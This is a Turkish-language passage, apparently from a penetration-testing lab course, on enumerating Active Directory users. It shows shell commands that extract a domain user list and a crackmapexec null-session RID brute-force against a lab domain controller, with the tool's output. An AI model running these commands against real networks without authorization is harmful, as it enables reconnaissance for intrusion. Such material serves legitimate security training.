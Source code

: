 Export edilen dosyayı, tüm kullanıcıların bir listesini almak için kullanabiliriz; daha sonra bu listeyi kullanacağız.


### Kullanıcı Listesini Çıkarma

```
sed -i "s/'/\"/g" users.txt
jq -r '.[]' users.txt > userslist.txt
cat userslist.txt
Guest
carlos
grace
peter
alina
noemi
engels
kiosko
testaccount
mathew
svc_mssql
gmsa_adm
belkis
nicole
jorge
linda
shaun
diana
patrick
elieser

```

Burada, herhangi bir hesap olmadan tüm domain kullanıcılarını ve password policy'yi listeleyebiliriz. Bu yapılandırma her zaman mevcut olmayabilir, ancak mevcutsa, domain'i ele geçirme amacımıza başlamak için bize yardımcı olacaktır.


### Kullanıcıları rid bruteforce ile numaralandırma

Bir domainin kullanıcılarını belirlemek için --rid-brute seçeneği kullanılabilir. Bu seçenek özellikle NULL Authentication'a sahip ancak belirli sorgu kısıtlamaları olan bir domain ile uğraşırken kullanışlıdır. Bu seçeneği kullanarak, domain'deki kullanıcıları ve diğer nesneleri numaralandırabiliriz.


### Enumerating Users with --rid-brute

```
crackmapexec smb 10.129.204.172 -u '' -p '' --rid-brute

SMB 10.129.204.172 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True)
(SMBv1:False)
SMB 10.129.204.172 445 DC01 [+] Brute forcing RIDs
SMB 10.129.204.172 445 DC01 498:
INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB 10.129.204.172 445 DC01 500:
INLANEFREIGHT\Administrator (SidTypeUser)
SMB 10.129.204.172 445 DC01 501:
INLANEFREIGHT\Guest (SidTypeUser)
SMB 10.129.204.172 445 DC01 502:
INLANEFREIGHT\krbtgt (SidTypeUser)
SMB 10.129.204.172 445 DC01 512:
INLANEFREIGHT\Domain Admins (SidTypeGroup)
SMB 10.129.204.172 445 DC01 513:
INLANEFREIGHT\Domain Users (SidTypeGroup)
```